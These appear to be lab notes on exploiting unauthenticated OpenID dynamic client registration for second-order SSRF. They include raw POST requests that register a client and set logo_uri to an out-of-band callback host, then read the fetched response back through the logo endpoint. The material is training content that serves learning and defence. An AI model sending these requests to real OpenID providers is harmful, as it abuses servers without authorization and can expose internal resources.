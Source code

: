 The OpenID provider should require the client application to authenticate itself. In the example above, they're using an HTTP bearer token. However, some providers will allow dynamic client registration without any authentication, which enables an attacker to register their own malicious client application  
For example, you may have noticed that some of these properties can be provided as URIs. If any of these are accessed by the OpenID provider, this can potentially lead to second-order SSRF  
We can search for open-id configuration in oauth config file `/.well-known/openid-configuration`  
Next we can detect reg site from configuration and try to register site to which we want to have redirect:
```
POST /reg HTTP/1.1
Host: oauth-0a2400cc04337b2fc038f7ce02e90099.oauth-server.net
Content-Type: application/json
Content-Length: 63

{
    "redirect_uris": [
        "https://test.com"
    ]
}
```
Moreover, in the OpenID specification, the client applications can provide the URL for their logo using the logo_uri property during dynamic registration.  
So we can 
```
POST /reg HTTP/1.1
Host: oauth-0a2400cc04337b2fc038f7ce02e90099.oauth-server.net
Content-Type: application/json
Content-Length: 137

{
    "redirect_uris": [
        "https://test.com"
    ],
    "logo_uri": "https://lti04hljv02z1dqgkryt8r22htnkbbz0.oastify.com"
}	
```

And if we will visit `/client/<client_id>/logo` we will receive response from logo_uri  
